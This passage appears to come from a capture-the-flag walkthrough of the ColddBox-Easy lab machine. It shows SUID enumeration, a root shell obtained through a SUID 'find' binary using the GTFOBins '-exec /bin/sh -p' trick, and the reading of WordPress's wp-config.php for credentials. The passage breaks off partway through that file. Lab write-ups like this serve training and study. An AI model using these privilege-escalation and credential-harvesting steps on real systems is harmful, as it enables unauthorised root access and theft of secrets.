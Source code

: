 ```
www-data@ColddBox-Easy:/tmp$ find / -type f -perm -u=s 2> /dev/null
find / -type f -perm -u=s 2> /dev/null
/bin/su
/bin/ping6
/bin/ping
/bin/fusermount
/bin/umount
/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/find
/usr/bin/sudo
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/bin/at
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

### 3.1. SUID Bit: Find Binary
Using [GTFOBins - Find SUID](https://gtfobins.github.io/gtfobins/find/#suid).
```
www-data@ColddBox-Easy:/tmp$ find . -exec /bin/sh -p \; -quit
find . -exec /bin/sh -p \; -quit
# id    
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
```
With this, we can view both the user and root flags in the `/home/c0ldd` and the `/root` directory.

### 3.2. Exploration + SUDO: 3 Paths
Note how we have the user `c0ldd`. Could we try and getting some credentials? From other machines, I know `wp-config.php` is a juicy file. Exploring that,
```
www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php
cat wp-config.php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, and ABSPATH. You can find more information by visiting
 * {@link http://codex.wordpress.org/Editing_wp-config.php Editing wp-config.php}
 * Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');
```